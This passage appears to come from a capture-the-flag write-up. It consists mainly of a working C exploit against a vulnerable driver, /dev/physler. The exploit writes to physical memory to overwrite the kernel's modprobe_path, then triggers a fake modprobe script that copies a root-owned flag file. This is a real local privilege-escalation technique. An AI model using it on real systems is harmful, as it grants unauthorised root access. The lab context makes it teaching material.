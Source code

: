 So, the exploit code is as follows:

```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <string.h>
#include <stdlib.h>
#define IOCTL_MAP_PHYS_ADDR 0x1001
#define IOCTL_READ_PHYS_MEM 0x2002
#define IOCTL_WRITE_PHYS_MEM 0x3003

struct ioctl_map {
    unsigned long phys_addr;
    unsigned long size;
};

struct ioctl_write {
    unsigned long size;
    unsigned char* in_data;
};

void get_flag(void){
    puts("[*] Returned to userland, setting up for fake modprobe");

    system("echo '#!/bin/sh\ncp /root/flag.txt /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[*] Run unknown file");
    system("/tmp/dummy");

    puts("[*] Hopefully flag is readable");
    system("cat /tmp/flag");

    exit(0);
}

int main () {
    int fd = open("/dev/physler", O_RDWR);
    printf("%d\n", fd);

    struct ioctl_map _map = {
        .phys_addr = 0x2dd5820, // modprobe_path
        .size = 0x1000
    };

    printf("%d\n", ioctl(fd, IOCTL_MAP_PHYS_ADDR, &_map));

    char *ptr = "/tmp/x";
    struct ioctl_write _write = {
        .size = strlen(ptr) + 1,
        .in_data = ptr
    };

    ioctl(fd, IOCTL_WRITE_PHYS_MEM, &_write);
    get_flag();

    return 0;
}
```
